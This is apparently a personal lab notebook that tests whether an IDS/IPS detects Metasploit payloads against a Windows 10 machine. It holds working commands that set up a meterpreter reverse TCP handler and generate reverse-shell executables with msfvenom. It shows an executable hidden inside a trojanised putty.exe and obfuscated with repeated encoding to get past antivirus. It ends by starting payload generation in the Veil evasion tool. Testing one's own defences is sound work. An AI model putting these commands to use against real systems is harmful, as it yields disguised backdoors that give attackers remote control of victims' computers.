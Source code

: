 ```

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST <kali ip>
LHOST => <kali ip>
msf6 exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on <kali ip>:5555 
```
run shell on windows machine : failed : not the right OS plateform for win10!

restart the process with defining plateform for msfvenom

msfvenom --list platforms
-> windows
msfvenom --list archs
->  x64

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<kali ip> LPORT=5555 -f exe -o shell.exe -a x64 --arch x64 --platform windows

same issue ...

- test if payload is detectable : virustotal.com

```
# encode payload
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<kali ip> LPORT=5555 -f powershell -o shell.ps1 -a x64 --arch x64 --platform windows -e x64/zutto_dekiru -i 13 -n 442 

# use other software as template, ex=putty.exe
┌──(kali㉿kali)-[~/dev/exploits_files]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<kali ip> LPORT=5555 -f exec -o Putty.exe -a x64 --arch x64 --platform windows -x putty.exe 
## IDS detects and delete it!

# use other software as template, ex=putty.exe + obfuscate it
┌──(kali㉿kali)-[~/dev/exploits_files]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<kali ip> LPORT=5555 -f exe -o Putty.exe -a x64 --arch x64 --platform windows -x putty.exe -e x64/zutto_dekiru -i 13 -n 442 
## IDS doesn't detect/delete Putty.exe, but it blocks its tentative to establish tcp connection !
```

Conclusion : The IDS/IPS is working fine for theses basic cases!

## Use veil to create payload
install veil (evasion and ordnance tool) :
```
┌──(kali㉿kali)-[~/dev/exploits_files]
└─$ sudo apt-get install veil       
[sudo] password for kali: 
...
```
Veil console
```
┌──(kali㉿kali)-[~/dev/exploits_files]
└─$ veil

Veil>: use 1
Veil>: list
...
22)	powershell/meterpreter/rev_tcp.py
...
```

[powershell/meterpreter/rev_tcp>>]: set SLEEP 42
[powershell/meterpreter/rev_tcp>>]: set LHOST <kali ip>
[powershell/meterpreter/rev_tcp>>]: generate
